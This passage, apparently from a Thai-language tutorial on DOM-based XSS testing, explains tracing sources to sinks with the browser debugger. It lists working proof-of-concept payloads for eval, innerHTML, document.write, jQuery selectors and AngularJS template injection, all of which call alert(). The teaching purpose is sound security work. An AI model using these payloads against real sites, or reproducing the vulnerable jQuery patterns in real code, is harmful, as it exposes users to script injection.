 **ขั้นตอน:**
1. **หา Source ในโค้ด JavaScript:**
   - กด `Ctrl+Shift+F` (Windows) หรือ `Cmd+Alt+F` (Mac)
   - ค้นหา `location.search`, `location.hash` ฯลฯ

2. **ใช้ Debugger ติดตาม:**
   - วาง breakpoint ที่จุดที่อ่าน source
   - ติดตามว่าข้อมูลไปถึง sink ยังไง

3. **ทดสอบ Payload:**
   ```javascript
   // ถ้าไปถึง eval()
   ?param=';alert('XSS');//
   
   // ถ้าไปถึง setTimeout()
   ?param=alert('XSS')
   ```

## Payload ตัวอย่าง 🧪

### สำหรับ document.write:
```html
<script>alert(document.domain)</script>
```

### สำหรับ innerHTML:
```html
<img src=1 onerror=alert(document.domain)>
<svg onload=alert(document.domain)>
<iframe src=javascript:alert(document.domain)>
```

### สำหรับ JavaScript:
```javascript
';alert(document.domain);//
";alert(document.domain);//
```

## DOM XSS ใน Framework 🛠️

### jQuery
```javascript
// ช่องโหว่ใน attr()
$('#link').attr('href', new URLSearchParams(location.search).get('url'));
// โจมตี: ?url=javascript:alert(document.domain)

// ช่องโหว่ใน $() selector
$(location.hash).hide();
// โจมตี: #<img src=1 onerror=alert(1)>
```

### AngularJS
```html
<!-- ถ้ามี ng-app -->
<div ng-app>
    {{constructor.constructor('alert(1)')()}}
</div>
```

